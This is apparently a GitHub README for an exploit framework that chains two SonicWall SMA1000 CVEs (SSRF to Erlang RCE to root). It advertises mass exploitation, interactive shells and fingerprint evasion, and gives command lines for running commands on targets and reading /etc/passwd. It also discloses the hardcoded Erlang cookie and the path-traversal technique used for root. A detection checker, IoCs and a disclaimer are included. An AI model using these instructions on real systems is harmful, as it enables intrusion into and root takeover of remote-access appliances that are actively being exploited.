

<p align="center">
  
  
  
  
</p>

<p align="center">
  
  
  
  
</p>

<h2 align="center">[1] CVE-2026-15409 | [2] CVE-2026-15410</h2>
<h2 align="center">SonicWall SMA1000 - SSRF → Erlang RCE → Root Privesc</h2>

<p align="center">
  <b>Exploit Framework & Safe Detection Tool</b><br>
  <i>For authorized security testing only.</i>
</p>

---

## ⚖️ Legal Disclaimer & Responsible Use

**This tool is provided for educational and authorized penetration testing purposes only.**

The authors and contributors are not responsible for any misuse or damage caused by this software. Users are solely responsible for ensuring they have explicit written permission from the target owner before testing. Unauthorized access to computer systems is illegal under the Computer Fraud and Abuse Act (CFAA) and similar laws worldwide.

By using this software, you agree to:
- Use it only on systems you own or have explicit permission to test.
- Comply with all applicable local, state, and federal laws.
- Not use it for any malicious, destructive, or illegal activities.

> ⚠️ **WARNING:** This vulnerability is actively exploited in the wild. Unauthorized use may result in severe legal consequences.

---

## 🔥 Vulnerability Overview

**CVE-2026-15409** is a critical **unauthenticated Server-Side Request Forgery (SSRF)** vulnerability discovered in the SonicWall SMA1000 Appliance Work Place interface.

**How it works:**
1. An attacker exploits the SSRF to tunnel through the `wsproxy` endpoint.
2. This grants access to internal Erlang distribution services (port 1050/8188).
3. Using a hardcoded default cookie, the attacker authenticates to the Erlang node.
4. Remote Code Execution (RCE) is achieved via `os:cmd/1` calls.
5. **CVE-2026-15410** is then chained to escalate privileges to **root** via a path traversal in the AMC (Appliance Management Console).

**Key Facts:**
- 📅 **Disclosed:** July 14, 2026
- ⚠️ **CVSS Score:** 10.0 (CRITICAL)
- 📋 **CISA KEV:** Added July 14, 2026 (Due date: July 17, 2026)
- 🎯 **Affected Products:** SMA 6210, SMA 7210, SMA 8200v
- 🔄 **Fixed Versions:** 12.4.3-03453+ and 12.5.0-02835+

---

## 🛠️ Exploit Framework (`exploit.py`)

The **full weaponized exploit** chains CVE-2026-15409 and CVE-2026-15410 to achieve root-level compromise.

### ✨ Features:

| Feature | Description |
|---------|-------------|
| 🚀 **SSRF → Erlang RPC** | Automatically tunnels through `wsproxy` to reach internal Erlang nodes. |
| 💻 **Remote Code Execution** | Execute arbitrary OS commands via `os:cmd/1`. |
| 🔐 **Interactive Shell** | Spawn a live shell with support for `privesc` and `download` commands. |
| 👑 **Root Privesc** | Leverage CVE-2026-15410 to escalate to root using AMC path traversal. |
| 📁 **File Operations** | Read and write files on the target system. |
| 🌐 **Batch Scanning** | Mass exploit multiple targets with threading (`-l` flag). |
| 🎯 **SSRF Detection** | Optional `--detect` flag for safe vulnerability verification. |
| ⚙️ **Customizable** | Override WebSocket URL, Origin, User-Agent, Cookie, and more. |
| 🧩 **No Extra Dependencies** | Uses only Python standard library (except optional `requests` for detection). |
| 🔌 **Raw WebSocket Implementation** | No external WebSocket libraries — custom socket-level handshake avoids library-specific signature fingerprints for better OPSEC. |

---

## 📦 Installation & Requirements

### Prerequisites:
- Python 3.6+
- `pip` (for `requests` library)

### Install dependencies:

```bash
pip install -r requirements.txt
```

### [!] Note: exploit.py uses manual WebSocket implementation – no websockets library required. requests is only needed for the --detect feature.

# 🚀 Usage Examples

### [2] Exploit Framework (exploit.py)

```bash
# Interactive shell on target
python exploit.py -u 192.168.1.100

# Execute a single command
python exploit.py -u 192.168.1.100 --exec "id && whoami"

# Read a file
python exploit.py -u 192.168.1.100 --read-file /etc/passwd

# Enable SSRF detection before exploitation
python exploit.py -u 192.168.1.100 --detect

# Attempt root privesc
python exploit.py -u 192.168.1.100 --privesc

# Mass exploit from file (50 threads)
python exploit.py -l targets.txt -m 50 --exec "uname -a"

# Custom port and path
python exploit.py -u 10.0.0.5 -p 8443 --path /workplace

# Pipe mode (read command from stdin)
echo "cat /etc/hosts" | python exploit.py -u 192.168.1.100
```

### [2] Safe Checker (checker.py)

```bash
# Single target scan
python checker.py https://192.168.1.100

# Custom port and path
python checker.py 192.168.1.100 --port 8443 --path /workplace

# Mass scan from file
python checker.py --list targets.txt
```

## 🎯 Affected Versions

| Product | Vulnerable Versions | Fixed Versions |
|---------|-------------------|----------------|
| **SMA 6210** | 12.4.3-03245, 12.4.3-03387, 12.4.3-03434<br>12.5.0-02283, 12.5.0-02624, 12.5.0-02800 | 12.4.3-03453+<br>12.5.0-02835+ |
| **SMA 7210** | Same as above | Same as above |
| **SMA 8200v** | Same as above | Same as above |

> ⚠️ **Important:** These vulnerabilities do not affect SonicWall firewalls (SSL-VPN) or SMA 100 Series.

---

## 🧠 Technical Deep Dive

### SSRF (CVE-2026-15409)

The `wsproxy` endpoint on port 443 accepts a `bmID` parameter starting with `-3389` and a `host:port` specification. By pointing `host=127.0.0.1` and `port=1050`, attackers can tunnel to the internal Erlang distribution service.

### Erlang RPC

The Erlang node uses a hardcoded default cookie: `10ecad5b446e86864832904cd439b6b70262`. This allows remote authentication and execution of any `os:cmd/1` call.

### Root Privesc (CVE-2026-15410)

Once authenticated, the exploit writes a shell script to `/var/tmp/` and triggers the AMC `remove_hotfix` XML-RPC endpoint with a path traversal (`../../../../var/tmp/script.sh`), executing the script as root.

---

## 🔍 Indicators of Compromise (IoCs)

SonicWall recommends checking:

- `extraweb_access.log` for `/__api__/login` or `/__api__/logout` (200 status)
- `extraweb_access.log` for `/wsproxy` with suspicious host params (101 status)
- `ctrl-service.log` for hotfix rollbacks with path traversal
- `/var/lib/unit/conf.json` containing routes for `/__api__/login` or `/__api__/logout`

---

## 📚 References

- [NVD - CVE-2026-15409](https://nvd.nist.gov/vuln/detail/CVE-2026-15409)
- [SonicWall Advisory (SNWLID-2026-0008)](https://psirt.global.sonicwall.com/vuln-detail/SNWLID-2026-0008)
- [CISA KEV Catalog](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
- [The Hacker News - Two SonicWall SMA 1000 Zero-Days Exploited](https://thehackernews.com/2026/07/two-sonicwall-sma-1000-zero-days.html)
